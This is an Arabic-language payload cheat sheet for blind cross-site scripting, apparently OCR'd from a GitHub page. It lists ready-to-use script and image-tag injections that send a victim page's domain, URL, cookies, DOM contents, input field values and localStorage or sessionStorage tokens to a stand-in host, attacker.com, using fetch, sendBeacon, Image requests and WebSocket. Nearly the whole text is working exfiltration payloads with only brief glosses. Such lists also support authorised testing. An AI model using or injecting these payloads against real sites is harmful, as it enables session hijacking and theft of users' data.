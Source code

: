 #### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<script>navigator.sendBeacon('http://attacker.com/log', document.cookie)</script>`).
  - جرب تقنيات إرسال أخرى (مثل FormData أو JSON).
  - اختبر استخراج بيانات أخرى (مثل `document.referrer` أو `navigator.geolocation`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.referrer})</script>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن لتأكيد التنفيذ:
- <script>fetch('http://attacker.com/log?d='+encodeURIComponent(document.domain))</script>: يرسل نطاق الصفحة.
- <img src="http://attacker.com/log?d=document.domain">: يرسل النطاق عبر طلب صورة.
- <script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>: يرسل عنوان URL الحالي.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>: يرسل معلومات المتصفح.
- <script>navigator.sendBeacon('http://attacker.com/log', 'Blind XSS Executed')</script>: يرسل رسالة تأكيد.

2. استخراج ملفات تعريف الارتباط:
- <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>: يرسل ملفات تعريف الارتباط.
- <img src="http://attacker.com/log?c=document.cookie">: يرسل ملفات تعريف الارتباط عبر طلب صورة.
- <script>new WebSocket('ws://attacker.com').send(document.cookie)</script>: يرسل ملفات تعريف الارتباط عبر WebSocket.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>: يرسل ملفات تعريف الارتباط عبر POST.
- <img src=x onerror=fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))>: يرسل ملفات تعريف الارتباط عند فشل الصورة.

3. استخراج محتوى DOM:
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>: يرسل محتوى الصفحة بالكامل.
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.getElementById('admin-panel').innerHTML)</script>: يرسل محتوى عنصر معين.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>: يرسل قيم حقول الإدخال.
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>: يرسل عنوان الصفحة.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.querySelector('.admin-data').innerText})</script>: يرسل نص عنصر محدد.

4. استخراج بيانات التخزين:
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة من localStorage.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>: يرسل جميع بيانات sessionStorage.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>: يرسل بيانات مستخدم من localStorage.
